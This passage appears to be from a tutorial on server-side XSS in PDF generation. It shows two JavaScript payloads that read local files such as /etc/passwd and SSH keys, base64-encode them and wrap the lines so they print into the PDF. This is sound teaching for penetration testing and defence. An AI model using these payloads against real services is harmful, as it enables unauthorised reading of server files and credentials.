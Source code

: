 Injecting this JavaScript code, we can see the content of the `passwd` file in the generated PDF:

![image](hs3bDsVwwqr1.png)

However, this is impractical for some files since copying data out of the PDF file might break it. For instance, the syntax most likely breaks if we exfiltrate an SSH key. Additionally, we cannot exfiltrate files containing binary data this way. Thus, we should base64-encode the file using the `btoa` function before writing it to the PDF:

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(btoa(this.responseText))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

```

However, doing so creates a single long line that does not fit onto the PDF page. Typically, the PDF generation library will not inject linebreaks, resulting in the line being truncated before the end of the page:

![image](z3hz2GO7NPeD.png)

We can easily modify our payload to inject linebreaks every 100 characters to ensure that it fits on the PDF page:

```html
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

```

After doing so, we can finally retrieve the file without issues. We can now copy the base64-encoded data and decode it using any tool that ignores the linebreaks in the base64-encoded input, such as [CyberChef](https://gchq.github.io/CyberChef/):
